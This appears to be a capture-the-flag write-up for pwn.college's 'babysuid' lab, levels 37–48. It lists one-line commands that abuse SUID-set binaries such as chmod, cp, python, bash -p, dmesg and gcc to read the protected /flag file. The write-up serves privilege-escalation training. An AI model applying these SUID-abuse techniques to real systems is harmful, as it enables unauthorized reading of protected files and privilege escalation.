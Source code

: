 #### Level37

`chown hacker /flag; cat /flag`

#### Level38

`chmod +r /flag; cat /flag`

#### Level39

`cp --no-preserve=all /flag ~; cat ~/flag`

***alternative***	`touch ~/text; cp /flag ~/text; cat ~/text`

#### Level40

`/challenge/babysuid_level40; mv /usr/bin/cat /usr/bin/mv; /challenge/babysuid_level40; mv /flag`

#### Level41

`perl -pe '' /flag`

#### Level42

`python /flag`

***pro mode*** 	`echo "print(open('/flag').readline())" > f.py; python f.py`

#### Level43

`ruby /flag`

***pro mode*** 	`echo "puts File.read('/flag')" > f.rb; ruby f.rb`

#### Level44

`bash -p` and then `cat /flag`

***pro mode*** 	`bash -p -c "cat /flag"`

#### Level45

`date -f /flag`

#### Level46

`dmesg -F /flag`

#### Level47

`wc --files0-from=/flag`

#### Level48

`gcc -x c /flag` or `gcc -x c -E /flag`

***pro mode***	create the following `f.c` file and then compile it with `gcc f.c`

```c
#include <stdio.h>
#include "/flag"
int main(){
	return 0;
}
```
